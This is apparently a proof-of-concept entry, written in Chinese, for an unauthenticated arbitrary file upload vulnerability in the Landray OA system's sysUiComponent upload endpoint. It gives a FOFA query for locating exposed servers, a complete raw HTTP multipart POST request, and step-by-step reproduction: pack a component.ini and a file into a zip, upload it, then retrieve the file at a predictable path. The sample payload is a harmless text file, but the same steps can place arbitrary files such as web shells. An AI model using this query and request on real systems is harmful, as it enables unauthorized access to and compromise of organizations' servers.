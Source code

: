 # 蓝凌OAsysUiComponent 文件存在任意文件上传漏洞

## 蓝凌OAsysUiComponent 文件存在任意文件上传漏洞

## fofa
```
app="Landray-OA系统"

```


## poc
直接访问路径，发现未授权文件上传 http://.com/sys/ui/sys_ui_component/sysUiComponent.do?method=upload
![c9857f5370d4abd1547fa7cb1988a18a](https://github.com/wy876/POC/assets/139549762/ee361dae-cfa2-4eae-910f-501331731347)

```
POST /sys/ui/sys_ui_component/sysUiComponent.do?method=getThemeInfo&s_ajax=true HTTP/1.1
Host: IP:PORT
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Referer: http://.com/sys/ui/sys_ui_component/sysUiComponent.do?method=upload
Content-Length: 474
Content-Type: multipart/form-data; boundary=---------------------------15610248407689
Cookie: SESSION=YmI0OGMyZDQtZDE0NC00MTQ2LWJmMzMtNWE5NDMwOTYxM2Ex
DNT: 1
Connection: close

-----------------------------15610248407689
Content-Disposition: form-data; name="file"; filename="test.zip"
Content-Type: application/x-zip-compressed

PKx3;x4;x14;
-----------------------------15610248407689
```
## 漏洞复现
创建component.ini文件，内容为：
```
id=2023
name=check.txt
```
创建上传check.txt文件
```
1111
```
然后使用压缩软件，将两个文件压缩成一个压缩包，文件名check.zip


最后上传即可。上传成功后访问路径/resource/ui-component/2023/check.txt


## 漏洞来源
```
https://mp.weixin.qq.com/s/xhwmFuItG8ZoiuGrwR5bnw
```



